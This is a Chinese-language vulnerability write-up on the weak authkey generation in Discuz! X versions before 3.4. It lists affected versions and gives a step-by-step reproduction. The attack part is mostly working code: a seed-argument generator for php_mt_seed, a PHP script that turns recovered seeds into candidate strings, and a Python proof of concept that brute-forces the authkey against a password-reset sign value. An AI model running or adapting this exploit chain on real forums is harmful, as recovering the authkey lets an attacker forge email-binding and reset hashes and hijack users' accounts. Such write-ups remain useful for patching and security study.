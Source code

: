 ```yaml
---
title: Discuz < 3.4 authkey 算法的安全性漏洞
id: zhfly2871
---
```


# Discuz! X < 3.4 authkey 算法的安全性漏洞

## 一、漏洞简介

2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等…

## 二、漏洞影响

php>5.3+php-curl<=7.54

*   Discuz_X3.3_SC_GBK
*   Discuz_X3.3_SC_UTF8
*   Discuz_X3.3_TC_BIG5
*   Discuz_X3.3_TC_UTF8
*   Discuz_X3.2_SC_GBK
*   Discuz_X3.2_SC_UTF8
*   Discuz_X3.2_TC_BIG5
*   Discuz_X3.2_TC_UTF8
*   Discuz_X2.5_SC_GBK
*   Discuz_X2.5_SC_UTF8
*   Discuz_X2.5_TC_BIG5
*   Discuz_X2.5_TC_UTF8

## 三、复现过程

### 漏洞分析

在dz3.3/upload/install/index.php 346行

![image](../img/a86217d36ea59f111125a6d0efdba22d.png)

我们看到authkey是由多个参数的md5前6位加上random生成的10位产生的。

跟入random函数

![image](../img/e72f907fc1eed58ad37d53b2c996beb8.png)

当php版本大于4.2.0时，随机数种子不会改变

我们可以看到在生成authkey之后，使用random函数生成了4位cookie前缀

```
$_config['cookie']['cookiepre'] = random(4).'_'; 
```

那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符

![image](../img/49580ebb08af26c491d3394094c5f88a.png)

> 如上图所示，前四位是**sW7c**

然后通过脚本生成用于php_mt_seed的参数

> 这里需要修改第13行代码，替换你自己的cookie前四位

```
# coding=utf-8
w_len = 10
result = ""
str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
length = len(str_list)
for i in xrange(w_len):
	result+="0 "
	result+=str(length-1)
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
sstr = "sW7c"
for i in sstr:
	result+=str(str_list.index(i))
	result+=" "
	result+=str(str_list.index(i))
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
print result 
```

得到参数,使用php_mt_seed脚本

https://github.com/ianxtianxt/php-mt_rand

```
./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt 
```

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串

```
<?php
function random($length) {
	$hash = '';
	$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
	$max = strlen($chars) - 1;
	PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
	for($i = 0; $i < $length; $i++) {
		$hash .= $chars[mt_rand(0, $max)];
	}
	return $hash;
}
$fp = fopen('result.txt', 'rb');
$fp2 = fopen('result2.txt', 'wb');
while(!feof($fp)){
	$b = fgets($fp, 4096);
	if(preg_match("/seed = (\d)+/", $b, $matach)){
		$m = $matach[0];
	}else{
		continue;
	}
	// var_dump(substr($m,7));
	mt_srand(substr($m,7));
	fwrite($fp2, random(10)."\n");
}
fclose($fp);
fclose($fp2); 
```

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16**6*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php` 65行生成用于验证的sign值。

![image](../img/a7e6beb7eec864f9ac8a4dc614ac8471.png)

跟随make_getpws_sign函数进入`/source/function/function_member.php`

![image](../img/b844808ef037bf6d73dfd9a23b49757b.png)

然后进入dsign函数，配合authkey生成结果

![image](../img/51343ce3d61db8ca3179d09a5f0d2f6c.png)

这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

### poc

> http://www.0-sec.org/dz3.3/member?mod=getpasswd&uid=2&id=vnY6nW&sign=af3b937d0132a06b
> 
> 自行修改第7,8,13行代码

```
# coding=utf-8
import itertools
import hashlib
import time
def dsign(authkey):
	url = "http://127.0.0.1/dz3.3/"
	idstring = "vnY6nW"
	uid = 2
	uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
	url_md5 = hashlib.md5(uurl+authkey)
	return url_md5.hexdigest()[:16]
def main():
	sign = "af3b937d0132a06b"
	str_list = "0123456789abcdef"
	with open('result2.txt') as f:
		ranlist = [s[:-1] for s in f]
	s_list = sorted(set(ranlist), key=ranlist.index)
	r_list = itertools.product(str_list, repeat=6)
	print "[!] start running...."
	s_time = time.time()
	for j in r_list:
		for s in s_list:
			prefix = "".join(j)
			authkey = prefix + s
			# print dsign(authkey)
			if dsign(authkey) == sign:
				print "[*] found used time: " + str(time.time() - s_time)
				return "[*] authkey found: " + authkey
print main() 
```

![image](../img/bd70fadbb77fcb7fe81a0fd6a4e1de7f.png)

![image](../img/603f093bd68da775d387f8911f3c420c.png)

## 参考链接

> https://lorexxar.cn/2017/08/31/dz-authkey/#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85